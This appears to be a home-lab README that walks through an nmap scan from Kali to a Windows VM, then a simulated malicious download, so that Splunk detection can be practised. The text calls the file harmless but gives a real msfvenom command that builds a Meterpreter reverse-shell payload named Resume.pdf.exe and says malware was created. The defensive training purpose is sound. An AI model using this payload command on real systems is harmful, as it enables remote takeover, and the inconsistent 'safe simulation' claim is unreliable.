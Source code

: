 Now that both VMs are configured with static IPs on the **Internal Network** (Windows → `192.168.1.50`, Kali → `192.168.1.51`), the next step is to verify connectivity and perform a **benign discovery scan** from Kali to Windows.

This simulates a typical reconnaissance step but is **safe and contained** within your home lab.



## 🛠️ Tool Used
- **Nmap** (pre-installed on Kali Linux)



## 📡 Run Nmap Scan
On your **Kali VM**, open a terminal and type:


nmap -A 192.168.1.50, it will scan all the open ports 

![Nmap Scan](https://github.com/addula-mounika12/Homelab-Splunk-Detection/blob/9a5eb54b4028e40c984cbc0611661b853f1dd002/assets/1.png)
---

# ⚙️ Step 3: Simulate Suspicious File + Listener Setup

In a real red-team or attacker workflow, a tool such as `msfvenom` could generate a payload (e.g., `Resume.pdf.exe`) and then a handler (e.g., Metasploit) would be configured to listen for incoming connections.  

⚠️ For safety, we simulate this entire workflow:
- Instead of generating malware, we create a harmless file named **Resume.pdf.exe**.
- Instead of running a Metasploit handler, we open a **benign listener** using `netcat` on Kali.

This still generates the **process creation** and **network telemetry** we need to practice detection in Splunk.

## 🖥️ On Kali Linux — Create Suspicious-Looking File

# create a harmless text file with a suspicious name
Using msfvenom payloads, msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=192.168.1.51 lport=4444  -f exe  -o Resume.pdf.exe, I have created a Resume.pdf.exe malware.

✅ What This Simulates
The creation of a disguised file (Resume.pdf.exe).

A server is waiting for inbound traffic on port 4444.

When Windows later downloads/executes the file, Sysmon will log:

ProcessCreate events (Resume.pdf.exe spawning processes).

NetworkConnect events (connection to 192.168.1.51:4444).

![Kali Listener](https://github.com/addula-mounika12/Homelab-Splunk-Detection/blob/baa2be591a32fec70a407fc52efed756bee9a1a2/assets/Screenshot%202025-09-09%20121844.png)
---
